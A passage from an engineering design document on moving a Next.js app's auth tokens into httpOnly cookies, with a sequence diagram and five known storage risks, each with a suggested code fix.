    R-->>LJ: {encrypted: ...} (token NOT in body)
    LJ->>LJ: decryptResponse() → {success:1, user:{...}}
    LJ->>LC: context.login(data)
    LC->>SS: write userInfo, permissions, activeAssignment
    LJ->>U: window.location.href = "/"

    Note over U,CK: === PAGE REFRESH ===
    U->>LC: Mount → restoreSession()
    LC->>SS: Read userInfo (Phase 1 optimistic paint)
    LC-->>U: Fast render with cached user data
    LC->>R: GET /relayapi {endpoint:user-me, module:user}
    Note over R: Cookie sent automatically by browser
    R->>BE: GET /user/user-me + Authorization: Bearer JWT (from cookie)
    BE-->>R: {encrypted: fresh user object}
    R-->>LC: {encrypted: ...}
    LC->>LC: decryptResponse() → update state + sessionStorage
    LC->>U: authReady=true → RouteGuard renders page

    Note over U,CK: === LOGOUT ===
    U->>LC: context.logout()
    LC->>R: POST /relayapi {endpoint:user-logout} (fire-and-forget)
    R->>CK: Clear accessToken cookie (maxAge=0)
    R->>CK: Clear impersonationToken cookie (maxAge=0)
    LC->>SS: removeItem userInfo, permissions, activeAssignment, ...
    LC-->>U: isLogin=null → RouteGuard → redirect /login
```

### Before vs After Storage Architecture



---

## 9. Known Risks Specific to Storage

### RISK 1 (High) — `stopImpersonating` Does Not Notify the Backend

**Current code (`route.js` lines 71–82):**
```js
if (endpoint === "user-stop-impersonating") {
    const nextRes = NextResponse.json({ success: 1 });
    nextRes.cookies.set("impersonationToken", "", { maxAge: 0, ... });
    return nextRes;   // <-- returns before reaching NestJS
}
```

**Impact:** The `impersonationToken` cookie is cleared, so no further browser requests will use the impersonated identity. However, if the NestJS backend tracks active impersonation sessions in a database or audit log, that record is never closed. The JWT itself is still technically valid until its `exp` claim expires. If someone retained the raw JWT value (e.g. from a server-side log), they could use it directly against the backend until expiry.

**Suggested fix:** Forward the request to NestJS `POST /user/user-stop-impersonating` before returning. The backend should then record the session end and optionally invalidate the impersonation token server-side (e.g. by adding it to a short-lived token blocklist or by recording a stop-time in an activity log):

```js
if (endpoint === "user-stop-impersonating") {
    // Forward to backend first
    const base = getServiceBase(request);
    await doFetch(`${base}/user-stop-impersonating`, {
        method: "POST",
        headers: { Authorization: getAuthToken(request) },
    });
    // Then clear the cookie
    const nextRes = NextResponse.json({ success: 1 });
    nextRes.cookies.set("impersonationToken", "", { httpOnly: true, maxAge: 0, ... });
    return nextRes;
}
```

---

### RISK 2 (Medium) — `sessionStorage["userInfo"]` Is Still JS-Readable

**Impact:** `sessionStorage` is cleared when the tab closes, is not accessible cross-origin, and is not sent in HTTP requests — but it is still readable by any JavaScript running in the same tab. An XSS attack can still read `userInfo` (name, email, group, company, permissions list) from `sessionStorage`. This is a downgrade from the token risk (attacker cannot impersonate the user) but is still an information leak.

**Accepted trade-off:** The alternative is to make the UI stateless (re-fetch user data from the server on every render), which would require a server round-trip for every permission check. This was deemed impractical for UX.

**Suggested hardening:** Ensure all user-supplied fields that are stored in `userInfo` are sanitized server-side before they are returned, so an attacker cannot inject a malicious payload that gets stored and re-executed when read back from sessionStorage.

---

### RISK 3 (Medium) — Logout is Fire-and-Forget; Server-Side Log May Be Missed

**Current code (`LoginContext.logout()`):**
```js
fetch("/relayapi", {
    method: "POST",
    headers: { ...authHeaders(), endpoint: "user-logout", module: "user" },
    body: JSON.stringify({ userId: isLogin?.userId, ... }),
}).catch(() => {});  // error silently ignored
```

**Impact:** If the logout network call fails (flaky connection, server restart), the backend never records the logout event in its activity log. The client state is still cleared correctly, but the audit trail has a gap.

**Suggested fix:** Use `navigator.sendBeacon` for the logout call, which is designed for reliable delivery even during page unload, or at minimum log a warning when the catch fires:

```js
const ok = navigator.sendBeacon("/relayapi", JSON.stringify({...}));
if (!ok) console.warn("Logout beacon failed — activity log may be incomplete");
```

---

### RISK 4 (Low) — No Explicit Cookie Expiry = Session Cookie Behaviour

**Current:** The `accessToken` cookie has no `maxAge` or `expires` set on creation. This makes it a **session cookie** — it is cleared when the browser session ends (all windows/tabs closed), not when the JWT itself expires.

**Potential issue:** If the JWT has a long expiry (e.g. 24 hours) and the user leaves the browser open, the cookie will persist for the full 24 hours. Conversely, if the user closes and reopens the browser (ending the session), the cookie is cleared even if the JWT would still have been valid — forcing a re-login.

**Suggested fix:** Set `maxAge` equal to the JWT's `exp` claim so cookie lifetime matches token lifetime precisely:

```js
// In route.js login handler:
const decoded = jwt.decode(loginToken);
const maxAge = decoded?.exp ? decoded.exp - Math.floor(Date.now() / 1000) : undefined;
nextRes.cookies.set("accessToken", loginToken, {
    httpOnly: true, sameSite: "lax",
    secure: process.env.NODE_ENV === "production",
    path: "/",
    ...(maxAge ? { maxAge } : {}),
});
```

---

### RISK 5 (Low — New Finding) — `authHeaders()` Still Spreads `Content-Type` onto FormData Requests

**Observed in `userUpdate.jsx` and `add-user/page.jsx`:** These files use `authHeaders()` for multipart/form-data submissions. `authHeaders()` always returns `"Content-Type": "application/json"`. When this is applied to a `FormData` body, the browser cannot set the correct `multipart/form-data; boundary=...` header (it must do this itself). Manually overriding `Content-Type` for a FormData request breaks multipart encoding.

**Current mitigation in `route.js`:** The relay proxy handles this correctly:
```js
if (contentType.includes("application/json")) {
    body = JSON.stringify(json);
    fetchHeaders["Content-Type"] = "application/json";
} else {
    body = await request.formData();
    // Content-Type is NOT set — Node fetch sets it correctly with boundary
}
```

But if the component sends `"Content-Type": "application/json"` in its headers for a FormData body, the relay will misparse it (treating it as JSON, not FormData). Verify that FormData-submitting components do **not** call `authHeaders()` for those specific fetch calls, or that they correctly override/remove the `Content-Type` header for multipart requests.

---

_End of STORAGE_MIGRATION.md_
